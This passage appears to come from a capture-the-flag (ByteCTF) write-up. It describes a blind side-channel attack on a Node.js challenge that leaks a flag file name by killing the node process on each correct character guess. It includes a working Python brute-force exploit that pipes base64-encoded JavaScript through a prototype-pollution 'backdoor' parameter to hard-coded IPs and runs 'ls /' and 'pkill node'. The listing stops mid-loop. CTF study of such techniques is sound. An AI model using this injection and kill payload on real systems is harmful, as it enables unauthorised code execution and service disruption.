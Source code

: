 In fact, doing this is to prevent timing attacks. A timing attack is a type of side-channel attack (also known as Side Channel Attack, abbreviated as SCA), which is a kind of attack that takes advantage of software or hardware design flaws in a sneaky way.

Then, the folks played a fancy side-channel attack scheme, haha. First of all, since they couldn't get out of the network, they needed to know the status of a server. The server status chosen by the folks is whether the `node` process is still alive. The overall idea is to first read a file in the root directory, and the `flag` is probably in the file. By executing `ls /` to get an output string, then we pass in a piece of code. If this character is the same as the one we passed in, the `node` process is killed, and then we can't access the service. Then we can determine that this character is correct, and the passed-in characters can only be traversed one by one. First, we need to traverse and retrieve the file that stores the `flag`. Now let's get to the code, this is actually a kind of brute-force solution. In the process of attempting, some situations may occur, because the target machine's `node` restarts too quickly after being killed, so it needs a lot of manual intervention to check. Sometimes it will pause and look a few more times, and probably that character is the correct one. Looking a few more times can eliminate network fluctuation factors.

```python
# blast_file_name.py Brute force file name

import requests
from urllib import parse
import base64
from time import sleep
import string

# url = "http://39.106.69.116:30001/"
url = "http://39.106.34.228:30001/"

template = '''
    const exec = require("child_process").exec;
    const fs = require("fs");
    const cmd = "ls /";

    exec(cmd, function(error, stdout, stderr) {{ 
        if (stdout[{0}] === "{1}" && stdout.substr(0, {0}) === "{2}") {{
            exec("pkill node");
        }}
    }});
'''


def remote_exec(command):
    params = "echo {} | base64 -d > /tmp/ddd.js;node /tmp/ddd.js".format(base64.b64encode(t.encode()).replace(b'\n', b'').decode())
    # print(params)
    requests.get(url + "?ByteCTF[__proto__][length]=100000&ByteCTF[toString]=&ByteCTF[][a]&backdoor=" + parse.quote(params))

if __name__ == "__main__":
    # For example, if the fourth character is found
    # Then the third one is probably correct
    # Needs a lot of manual judgment
    result = ""
    result = "T"
    result = "Th1s_1s"
    for i in range(len(result), 10000000):
        find = False
        for char in string.ascii_letters + "_- " + string.digits:
            print(i, len(result), char, result + char)
            t = template.format(len(result), char, result)
            # print(t)

            try:
                remote_exec(t)
```